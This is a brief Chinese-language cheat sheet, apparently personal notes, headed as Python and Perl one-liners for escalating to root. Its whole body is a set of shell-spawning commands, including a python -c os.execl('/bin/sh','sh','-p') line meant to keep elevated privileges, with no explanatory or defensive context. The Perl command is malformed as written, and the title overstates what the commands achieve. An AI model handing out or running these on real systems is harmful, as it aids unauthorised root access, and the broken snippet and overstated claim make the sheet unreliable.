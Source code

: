 #python/perl 脚本语言一句话提权root

- perl

```
perl exec "/bin/bash";
```
- python

脚本方式：

```
import os
os.system("/bin/bash")
```
或者使用一句话命令：

```
python -c "import os; os.execl('/bin/sh', 'sh', '-p')"
```
